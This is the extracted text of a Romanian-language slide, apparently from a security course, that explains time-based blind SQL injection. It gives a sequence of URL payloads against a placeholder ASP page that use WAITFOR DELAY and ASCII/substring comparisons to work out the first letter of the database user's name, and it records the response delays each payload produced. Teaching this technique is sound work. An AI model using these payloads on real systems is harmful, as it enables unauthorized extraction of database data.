

SQLI orb
Cum se află primul caracter al lui USER (‘D’)
http://[site]/page.asp?id=1; IF (ASCII( lower( substring( (USER),1,1)))>97)
WAITFOR DELAY '00:00:10‘--
O pagină validă este returnată cu o întârziere de 10 secunde!

http://[site]/page.asp?id=1; IF (ASCII( lower( substring((USER),1,1)))=98) WAITFOR DELAY '00:00:10'--
Este returnată imediat o pagină validă

http://[site]/page.asp?id=1; IF (ASCII( lower( substring((USER),1,1)))=99) WAITFOR DELAY '00:00:10'—
Este returnată imediat o pagină validă

http://[site]/page.asp?id=1; IF (ASCII( lower( substring((USER),1,1)))=100) WAITFOR DELAY '00:00:10'-
O pagină validă este returnată cu o întârziere de 10 secunde!